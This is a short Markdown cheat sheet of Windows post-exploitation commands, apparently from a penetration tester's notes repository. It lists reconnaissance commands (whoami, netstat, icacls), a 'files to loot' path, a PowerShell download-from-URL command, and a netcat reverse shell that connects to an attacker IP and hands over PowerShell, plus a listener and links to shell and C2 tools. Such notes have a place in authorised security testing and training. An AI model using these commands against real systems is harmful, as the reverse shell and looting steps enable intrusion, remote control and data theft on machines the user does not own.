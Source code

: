 ```yaml
---
label: Post-exploitation
disabled: true
---
```


# Files To Loot

C:\inetpub\

## Information gathering

```powershell
# Check if Powershell or CMD is running
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

# List current user privileges
whoami /all

# List all listening TCP ports
netstat -noa | findstr "LISTENING"

# Check ACLs of file / directory
icacls $path
```

## File transfer

```powershell
# Download file from URL
Invoke-WebRequest $url -Out $output_file
```

<https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Downloading_Files_from_Attackers_HTTP_Server_PowerShell>

## Shell stabilisation

```powershell
# Connect to remote listener (get reverse shell)
nc.exe $attacker_ip $attacker_port -e powershell.exe

# Start listening on port
rlwrap nc -lvnp $port
```

- <https://github.com/antonioCoco/ConPtyShell/tree/master>
- C2 frameworks: meterpreter, sliver
